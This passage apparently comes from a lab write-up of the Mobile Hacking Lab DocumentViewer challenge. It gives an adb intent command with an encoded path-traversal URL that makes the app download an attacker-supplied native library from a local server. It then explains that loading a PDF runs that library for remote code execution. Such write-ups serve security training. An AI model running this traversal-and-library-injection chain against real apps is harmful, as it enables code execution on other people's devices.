 <br />

```
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d http://192.168.1.8:9998/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so
```

<br /><br />

![](/assets/img/mhl/DocumentViewer/3.png)



<br /><br />



Logcat Output

![](/assets/img/mhl/DocumentViewer/4.png)

<br />

We have placed the libdocviewer_pro.so file under the /data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86_64 directory.

![](/assets/img/mhl/DocumentViewer/5.png)

<br /><br />

When we close and reopen the application, then click the “Load PDF” button and load any PDF file to execute the native function and get the RCE. 

![](/assets/img/mhl/DocumentViewer/6.png)



<br />

<br />
